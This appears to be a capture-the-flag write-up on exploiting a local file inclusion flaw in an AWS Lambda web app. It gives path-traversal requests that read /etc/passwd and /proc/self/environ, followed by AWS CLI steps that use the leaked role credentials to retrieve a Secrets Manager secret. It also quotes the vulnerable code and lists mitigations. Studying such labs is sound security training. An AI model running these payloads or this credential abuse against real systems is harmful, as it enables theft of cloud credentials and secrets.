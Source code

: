 # Access Secrets Manager via Lambda Function

## how to use the LFI (Local File Injection) vulnerability in a Lambda function to access AWS Secrets Manager.

**Core Concept: Exploiting LFI to Steal Lambda Credentials, Then Access Secrets Manager**

Action plan:

1.  **LFI Vulnerability:**  The Lambda function powering the web application has a Local File Inclusion (LFI) vulnerability.  This means user-supplied input (the `employee_code` parameter) is used *unsafely* to construct a file path.
2.  **Leaking Environment Variables:**  By using path traversal (`../../..`) in the `employee_code`, we read the `/proc/self/environ` file. This file, in the context of a Lambda function, contains the function's environment variables. Critically, these include temporary AWS credentials (access key, secret key, session token) associated with the Lambda's IAM role.
3.  **Credential Abuse:**  We use the stolen AWS credentials to configure the AWS CLI.  This gives us the same permissions as the Lambda function's IAM role.
4.  **Secrets Manager Access:** The Lambda's IAM role has permissions to access a secret in AWS Secrets Manager.  Since we now have the Lambda's credentials, we can use the AWS CLI to retrieve the secret value (the flag).

**Step-by-Step Exploitation (Concise Version)**

1.  **Identify the Vulnerable Endpoint:** The `/find-employee` endpoint, accessed via a GET request with the `employee_code` parameter, is vulnerable. The provided lab URL is the starting point.

2.  **Confirm LFI (Initial Test):**
    *   Send a request with a simple path traversal payload:
        ```zsh
        GET /find-employee?employee_code=../../../../../../../../etc/passwd
        ```
    *   If the response contains the contents of `/etc/passwd` (e.g., "root:x:0:0:root:/root:/bin/bash"), LFI is confirmed. This proves you can read arbitrary files.

3.  **Leak Environment Variables (Critical Step):**
    *   Send a request to read the Lambda's environment variables:
        ```zsh
        GET /find-employee?employee_code=../../../../../../../../proc/self/environ
        ```
    *   The response will contain key-value pairs.  Look for:
        *   `AWS_ACCESS_KEY_ID`
        *   `AWS_SECRET_ACCESS_KEY`
        *   `AWS_SESSION_TOKEN`
        *   `SECRET_VALUE` (this is just an indicator, not the actual secret)

4.  **Configure AWS CLI (Credential Setup):**
    *   Use the stolen credentials to configure a new AWS CLI profile (e.g., named "lfi"):
        ```zsh
        aws configure --profile lfi
        ```
    *   Enter the `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, and `AWS_SESSION_TOKEN` when prompted. Set the region to `us-east-1`.
    *   Set the session token:
        ```zsh
        aws configure --profile lfi set aws_session_token <SESSION_TOKEN>
        ```
    *   Verify the configuration:
        ```zsh
        aws sts get-caller-identity --profile lfi
        ```
        This should return information about the IAM role associated with the Lambda function.

5.  **Access Secrets Manager (Get the Flag):**
    *   List available secrets:
        ```zsh
        aws secretsmanager list-secrets --profile lfi
        ```
    *   Identify the relevant secret's `SecretId` from the output (it will likely be a UUID-like string).
    *   Retrieve the secret value:
        ```zsh
        aws secretsmanager get-secret-value --secret-id <SecretId> --profile lfi
        ```
        Replace `<SecretId>` with the actual ID from the previous step.
    *   The response will contain a `SecretString` field.  This is the flag.  Extract the value between the curly braces `{}`.

**Important Code Snippet Analysis (Vulnerable Parts)**

The Python snippet below highlights these key code sections as vulnerable:

*   **User Input:**
    ```python
    if method == "GET" and path == "/find-employee":
        employee_code = query_params.get("employee_code", "")
    ```
    This line directly takes the `employee_code` from the URL query parameter without *any* sanitization or validation. This is the root cause.

*   **Dynamic Filename:**
    ```python
    filename = f"/tmp/{employee_code}"
    ```
    The user-controlled `employee_code` is directly used to build the file path. This allows for path traversal.

*   **File Access:**
    ```python
    if os.path.exists(filename):
        with open(filename, "r") as f:
            profile_data = f.read()
        return _send_response(200, f"<pre>{profile_data}</pre>", "text/html")
    ```
    While `os.path.exists()` checks if the file exists, it doesn't prevent access to files outside the intended `/tmp` directory if path traversal is used.  We simply checks if the *resulting* path (after the attacker's manipulation) exists.

**Mitigation (Key Takeaways)**

The original text provides good mitigation strategies.  Here's a summary with a bit more emphasis:

1.  **Input Validation (Crucial):**
    *   **Whitelist:**  If possible, *only* allow specific, known-good values for `employee_code`.  For example, if employee codes are always numeric, validate that the input is a number within an expected range.  This is the *best* defense.
    *   **Blacklist (Less Effective):**  Avoid blacklisting.  Attackers can often find ways around blacklists (e.g., double encoding, URL encoding).
    *   **Sanitization:** If a whitelist isn't feasible, *strictly* sanitize the input.  Remove or escape any characters that could be used for path traversal (e.g., `/`, `\`, `..`).  Use a well-vetted library for sanitization; don't write your own.

2.  **Secure File Handling:**
    *   **Absolute Paths:**  Use absolute, hardcoded paths to the directory where employee files are stored.  *Never* construct file paths directly from user input.
    *   **Chroot Jail (Advanced):** In a more secure environment, you might consider running the Lambda function in a chroot jail, which restricts its file system access to a specific directory.  This is more complex to set up.

3.  **Principle of Least Privilege (IAM):**
    *   Ensure the Lambda function's IAM role has *only* the necessary permissions.  Don't grant excessive permissions.  In this case, the role needed access to Secrets Manager, but it shouldn't have access to other sensitive resources.

4.  **Avoid Storing Credentials in Environment Variables:**
    * Although the lab demonstrates this vulnerability, in a real world scenario, it's best to avoid storing credentials in environment variables, and use IAM roles to grant access to resources.